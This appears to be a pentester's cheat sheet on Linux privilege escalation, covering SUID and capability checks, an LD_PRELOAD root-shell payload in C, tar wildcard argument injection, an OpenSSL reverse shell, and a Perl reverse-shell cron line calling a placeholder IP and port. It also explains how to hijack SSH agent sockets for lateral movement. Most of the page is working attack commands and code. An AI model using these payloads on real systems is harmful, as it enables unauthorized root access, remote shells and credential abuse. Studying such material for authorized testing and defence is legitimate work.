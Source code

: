 # Privilege Escalation on Linux Systems

## General

### Quality of Life

`python -c 'import tty; tty.spawn("/bin/bash")'`
`python -c 'import pty; pty.spawn("/bin/bash")'`


## Privileged Executables

### Capabilities

Starting with kernel 2.2, Linux divides the privileges traditionally
associated with superuser into distinct units, known as capabilities.
`/sbin/getcap -r / 2>/dev/null`

### SUID

`find / -perm -u=s -type f 2>/dev/null`


### SUDO

* Check with `sudo -l` and `cat /etc/sudoers`


### PRELOAD

Check if you can write into the path of privileged binaries, might be able to abuse library load order, you can check wich functions a binary uses via `objectdump -T`. To use these Preload-Attacks with sudo in /etc/sudoers there must be `env_keep += LD_PRELOAD`

A good payload to use for these attacks is:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
Execute with:
gcc -fPIC -shared -o payload.so payload.c -nostartfiles
sudo LD_PRELOAD=/tmp/payload.so <target>
When playing with the linker configs run `ldconfig` afterwards or it wont update the linker cache.


### Check open files of interesting processes

Use `fuser <filename>` or `lsof <filename>`


### Check for unmounted disks

`ls /dev`


## Abusing Common Tools

### Abusing Tar
If tar is allowed in sudoers with a wildcard command we can abuse that for privilege escalation. Filenames will be interpreted as command line arguments therefore we can create the following setup:
```
-rw-r–r–. 1 xxx xxx 0 Oct 28 19:19 –checkpoint=1
-rw-r–r–. 1 xxx xxx 0 Oct 28 19:17 –checkpoint-action=exec=sh payload.sh
-rwxr-xr-x. 1 xxx xxx 12 Oct 28 19:17 payload.sh
```
To create the files use:
```
echo "chmod u+s /usr/bin/find" > payload.sh
echo "" > "--checkpoint-action=exec=sh payload.sh"
echo "" > --checkpoint=1
```
Using find as the payload has the charm that we can execute commands via `find f1 -exec "whoami" \;` (file f1 must exist)

### Abusing TCPDump

With `-z` you can execute commands via TCPDump.

### Abusing OpenSSL

Openssl can read files and write into files via network. So it can be used for exfil and infil of Data. In addition a bind or reverse shell can be implemented via OpenSSL, e.g.:
`openssl.exe s_client -quiet -connect <ip>:<port> | cmd.exe | openssl.exe s_client -quiet -connect <ip>:<port>`

### RSync

If permissions allow it one can get RCE with RSync by overwriting the cronjobs file.
```
* * * * * root perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

## Hijacking SSH Agent
If you see SSH agents running on a pentest (process called "ssh-agent"), you might be able to use it to authenticate you to other hosts - or other accounts on that host.  Check out ~/.ssh/known_hosts for some ideas of where you might be able to connect to.
You can use any agents running under the account you compromised.  If you’re root you can use any SSH agent.
SSH agents listen on a unix socket.  You need to figure where this is for each agent (e.g. /tmp/ssh-tqiEl28473/agent.28473).

### Use the agent like this
```
export  SSH_AUTH_SOCK=/tmp/ssh-tqiEl28473/agent.28473
ssh-add -l # lists the keys loaded into the agent
ssh user@host # will authenticate you if server trusts key in agent
```

### Yield a list of unix sockets for SSH agents.
```
ps auxeww | grep ssh-agent | grep SSH_AUTH_SOCK | sed 's/.*SSH_AUTH_SOCK=//' | cut -f 1 -d ' '
```

## Agent Forwarding
If you enable SSH agent forwarding then you’ll be able to carry on using the SSH agent on your SSH client during your session on the SSH server.  This is potentially insecure because so will anyone else who is root on the SSH server you’re connected to.  Avoid using this feature with any keys you care about.

Reference: http://pentestmonkey.net/cheat-sheet/ssh-cheat-sheet


## Kernel Exploit problem
if exploit does not work on target system because gcc version is to old-->
*requires glibc 2.5 or later dynamic linker*
*tcsetattr: Invalid argument*
"*collect2: cannot find `ld'*"


```
gcc -m32 -o exploit exploit.c -Wl,--hash-style=both
```

#fatal error: asm/page.h: No such file or directory
 
 You just have to replace

include <asm/page.h>
by

define PAGE_SIZE sysconf(_SC_PAGE_SIZE)



## Reads

### Shared Libraries
* https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
* https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library
* https://www.cprogramming.com/tutorial/shared-libraries-linux-gcc.html
* https://www.boiteaklou.fr/Abusing-Shared-Libraries.html#but-can-we-exploit-it

tags: [privilege escalation] linux privesc
